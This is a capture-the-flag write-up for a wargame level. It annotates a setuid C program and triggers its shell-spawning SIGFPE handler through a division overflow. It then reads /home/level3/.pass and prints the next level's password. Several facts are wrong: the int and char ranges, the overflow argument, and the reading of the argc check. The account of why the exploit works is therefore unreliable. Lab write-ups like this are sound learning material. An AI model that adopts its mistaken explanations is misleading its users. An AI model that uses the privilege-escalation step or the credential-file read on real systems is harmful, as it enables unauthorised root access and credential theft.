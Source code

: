 Level02
12/25/15 ------------------
Checking out the files in the directory levels there are 4 files relating to level 2.
level02
level02_alt
level02.c
level02_alt.c

running level02 we are granted with the phrase 
"source code is available in level02.c"

so we use vim to view the source code of level02.c to analyze what is happening. 

  1 //a little fun brought to you by bla
  2
  3 #include <stdio.h>
  4 #include <stdlib.h>
  5 #include <signal.h>
  6 #include <unistd.h>
  7
  8 void catcher(int a)                                   <------ So this is where we want to be
  9 {
 10         setresuid(geteuid(),geteuid(),geteuid());
 11     printf("WIN!\n");
 12         system("/bin/sh");
 13         exit(0);
 14 }
 15
 16 int main(int argc, char **argv)                         <------- Begining of main statement. Looking input for an int and char as inputs.
 17 {
 18     puts("source code is available in level02.c\n");    <-------- Prints this when ran
 19
 20         if (argc != 3 || !atoi(argv[2]))        <------ argc has to  not be 3 or not be able to convert an array to an int from argv
 21                 return 1;                       <------ return if either is true not allowing us to to get to the part that matters
 22         signal(SIGFPE, catcher);                <------ signal reports a fatal arithmetic error which results on the catcher to be used.
 23         return abs(atoi(argv[1])) / atoi(argv[2]); <--- If an error is returned here then catcher is signaled.
 24 }
 25

So essentially we need to figure out how to break the function.
A little search about the limitation of datatypes in C shows us the ranges of an Int and a Char

A int stores data from -21474836478 to 2147483647.
A char stores data from -127 to 128.

So in order to make the arithmetic on line 23 of level02.c We need to run it with the following arguments.

./level02 -21473836478 -1
On line 23 the following happens:

(-21473836478)/(-1) = 21473836478

But wait, what is the limitation of the integer? -21474836478 to 2147483647! 21473836478 is outside the limit of an Int Value causing the catcher to trigger and producing a win.

using cat /home/level3/.pass we are granted with level3 access with password OlhCmdZKbuzqngfz
